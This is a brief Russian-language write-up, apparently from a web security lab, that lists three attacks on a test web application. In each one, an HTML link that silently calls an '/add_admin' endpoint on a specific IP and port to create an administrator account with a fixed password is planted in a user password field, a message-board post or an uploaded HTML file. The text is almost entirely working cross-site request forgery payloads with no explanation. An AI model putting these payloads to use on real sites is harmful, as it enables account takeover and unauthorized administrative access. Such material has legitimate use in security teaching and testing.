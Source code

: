 ## Атака 1
Аккаунт нового пользователя создается с таким паролем <a href="http://92.124.140.111:1337/add_admin?username=admin&password=789456&isAdmin=yes&submit=Add+User">test</a>  <a href="http://92.124.140.111:1337/add_admin?username=admin&password=789456&isAdmin=yes&submit=Add+User" />

## Атака 2

В Message Board можно отправить такое сообщение <a href="http://92.124.140.111:1337/add_admin?username=admin&password=789456&isAdmin=yes&submit=Add+User">test</a>   (<a href="http://92.124.140.111:1337/add_admin?username=admin&password=789456&isAdmin=yes&submit=Add+User">)


## Атака 3

B Upload PoC File можно добавить test.html с таким содержанием <a href="http://92.124.140.111:1337/add_admin?username=admin&password=789456&isAdmin=yes&submit=Add+User">test</a> (<a href="http://92.124.140.111:1337/add_admin?username=admin&password=789456&isAdmin=yes&submit=Add+User">)
